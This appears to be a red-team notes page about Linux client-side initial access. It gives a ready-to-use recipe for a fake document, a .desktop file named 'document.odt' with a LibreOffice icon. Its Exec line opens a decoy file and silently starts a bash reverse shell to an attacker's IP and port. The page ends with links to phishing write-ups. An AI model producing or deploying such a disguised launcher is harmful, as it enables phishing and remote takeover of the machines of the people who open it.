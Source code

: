 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - linux
credits:
  - tokyoneon
---
```

# Manual

TODO:

shortcut to application (.desktop extension)
link to resource (.desktop extension)
submenu (.directory extension)

## Fake Document

```
$ cat > malicious_document.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=document.odt
Exec=libreoffice --writer $(pwd)/.real_document.odt; /bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1 &
Terminal=false
Type=Application
Icon=libreoffice-writer
EOF
```

---
## References

### Backlinks

- [[Desktop Files|Helpers: Desktop Files]]

### Null Byte

- [Null Byte: Pop a Reverse Shell with a Video File by Exploiting Popular Linux File Managers](https://null-byte.wonderhowto.com/how-to/pop-reverse-shell-with-video-file-by-exploiting-popular-linux-file-managers-0196078)

### Vicarius

- [Vicarius: Phishing Linux Users with Zero Detection!](https://www.vicarius.io/vsociety/posts/phishing-linux-users-with-zero-detection)